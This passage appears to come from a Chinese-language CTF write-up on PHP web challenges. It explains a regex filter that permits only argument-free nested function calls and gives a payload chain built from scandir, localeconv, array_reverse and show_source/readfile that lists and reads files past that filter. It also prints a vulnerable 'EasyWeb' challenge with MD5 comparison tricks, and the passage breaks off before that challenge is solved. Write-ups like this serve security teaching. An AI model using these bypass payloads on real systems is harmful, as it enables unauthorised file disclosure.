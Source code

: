 其中：先对常用的伪协议进行了检测，之后又进行正则匹配，

```
preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])
```

这里使用``preg_replace``替换匹配到的字符为空，``[^A-Za-z0-9]``，然后``(?R)?``这个意思为递归整个匹配模式。

举个例子：

a(b(c()));可以使用，但是a('b')或a('b', 'c')的这种含有参数的都不能使用。

所以我们要使用无参数的函数进行文件读取或者命令执行。

payload：

```
print_r(scandir(current(localeconv())));
print_r(next(array_reverse(scandir(current(localeconv())))));
show_source(next(array_reverse(scandir(current(localeconv())))));
 or readfile(next(array_reverse(scandir(current(localeconv())))));
 or highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

### newsctf 凛冬将至

#### EasyWeb

打开后，得到代码，进行审计： 关键代码 👇

```php
<body>
        <h1>EasyWeb</h1>
        <div class="content">
            <?php highlight_file("index.php") ?>
        </div>
        <div class="content">
        <?php
            $six_number = $_POST['webp'];
            $a = $_POST['a'];
            $b = $_POST['b'];
            $c = $_POST['c'];
            if (md5($six_number) == 'e10adc3949ba59abbe56e057f20f883e' && md5($a) === md5($b) && $a !== $b) {
                if($array[++$c]=1){
                    if($array[]=1){
                        echo "nonono";
                    }
                    else{
                        require_once 'flag.php';
                        echo $flag;
                    }
                }
            } 
        ?>
        </div>
    </body> 
```
